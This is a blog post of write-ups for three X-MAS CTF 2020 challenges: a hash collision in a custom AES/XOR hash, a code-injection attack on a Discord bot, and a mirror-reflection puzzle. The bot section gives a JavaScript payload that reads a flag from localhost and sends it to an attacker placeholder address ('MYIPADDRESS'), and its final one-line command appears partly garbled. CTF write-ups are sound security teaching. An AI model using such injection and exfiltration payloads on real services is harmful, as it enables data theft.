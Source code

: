 ```yaml
---
layout: post
title:  "X-MAS CTF writeups"
date:   2020-12-17 12:59:36 +0200
categories: ctf
---
```


These are the writeups for the [X-MAS CTF 2020 by HTsP](https://xmas.htsp.ro/home) challenges that I personally solved.


## Help a Santa helper?

In this challenge you need to find hash collisions for a custom hashing algorithm. After passing the initial challenge using instructions from [here](https://security.stackexchange.com/questions/223157/how-can-i-find-a-sha-256-hash-with-a-given-suffix-using-hashcat) we are presented a menu:

```
Good, you can continue!
Hello, thanks for answering my call, this time we have to break into Krampus' server and recover a stolen flag.
We have to solve a hash collision problem to get into the server.
Sadly, we're on a hurry and you only have 2 actions you can make until we get detected.
Choose what you want to do:
1. hash a message
2. provide a collision
3. exit
```
The hashing algorithm is given in the challenge and it’s using AES and XOR to calculate the hash in 16 byte blocks:

Let’s first hash a 16 byte message, which is the length of and AES block. If we use “00000000000000000000000000000000” as the first hash the output will be directly from the AES algorithm, something like “6ea8be2…1e692df”. We can then calculate the next hash as 3 AES block as follows:

Let’s again use “0000000…0000000” as the first block so the self.hash will be the same as in the first message “6ea8be2…1e692df”. Let’s the set the hash from first message as the second block. It will then get XORed to zero in AES() call which produces the same value as in the previous block. The final hash will then be “6ea8be2…1e692df” XOR “6ea8be2…1e692df” which is zero. Now the algorithm is back to inital state for the third and final round when we again use “0000000…0000000” as the third block which produces exactly the same hash as the first message a.ka. a collision.

As a generalisation the colliding messages are MSG1 and MSG1+HASH_FOR_MSG1+MSG1. You can find the source code to get past the initial challenge below but I chose to enter the hashes manually since there was no time limit.

{% gist a1812fdfb9845cd8d6b28ae2a1f23ce8 %}


## Comfort bot

In this challenge we need to get a Discord bot to reveal the flag. The source code is provided as part of the challenge and analysing it quickly reveals a code injection exploit:

We can test the vulnerability by sending the bots commands like:
```
comf foo ','
comf foo ',1,'
comf foo ',1,2,'
````

Which translate to function calls like `cleverbot.SendAI('foo',1,2,'')` This takes advantage of the fact that Javascript is a loosely typed language and we can supply any number of arguments to the function. After we verify that the bot answers to these commands we can add JS code to get the flag and make an HTTP request to our own server:

```javascript
window.foo=new XMLHttpRequest();
window.foo.onreadystatechange = function() {window.open("http://MYIPADDRESS/"+this.responseText)}
window.turl = "http://localhost/flag";
window.foo.open("GET",window.turl,true);
window.foo.send();
```
With this code and the fact that function arguments are evaluated left to right the final command to send to the bot is:

```
comf foo',window.foo=new XMLHttpRequest(),window.foo.onreadystatechange = function() {window.open("http://MYIPADDRESS"http://localhost/flag",window.foo.open("GET",window.turl,true),window.foo.send(),'
```


## Krampus' Lazer Tag

 In this challenge you need play 50 rounds of Lazer tag against Krampus in 30 seconds. The instructions are given when you connect to the bot:
![Krampus instructions]({{ site.url }}/assets/krampustext.png)

For each round we get both Krampus and player positions in x∈(0,1), y∈(0,1). Since the walls are made out of mirrors that reflect lazer we need to consider reflections when placing the lazer blockers. I googled around how to best calculate reflections until I found this page on Google that demonstrates how to simplify the calculations. The main principle is to reduce the reflections to straight lines, which is illustrated in the image below.

<p align="center">
  <img width="460" height="300" src="https://i.stack.imgur.com/tUC3y.gif">
</p>


I setup a Jupyter notebook to visualise the situation and calculate the reflected player positions up to two reflections away:
![Krampus instructions]({{ site.url }}/assets/krampus1.png)

I then calculate the midpoints where the lazer converges and that will be the blocker 
positions.

![Krampus instructions]({{ site.url }}/assets/krampus2.png)

Next step is to calculate the reflected positions of the traps back to the [0,1],[0,1] coordinates. They overlap very closely to 16 positions but it’s still necessary to round up the coordinates so that there are only 16 positions since that is how many blockers we are given.

![Krampus instructions]({{ site.url }}/assets/krampus3.png)

Take a look at the notebook for more details: [LazerTag Jupyter notebook](https://github.com/j11b0/lazertag/blob/main/LazerTag.ipynb) or view the final code:

{% gist 3183bdb9f38fe52a3947064ed0e3bd4a %}
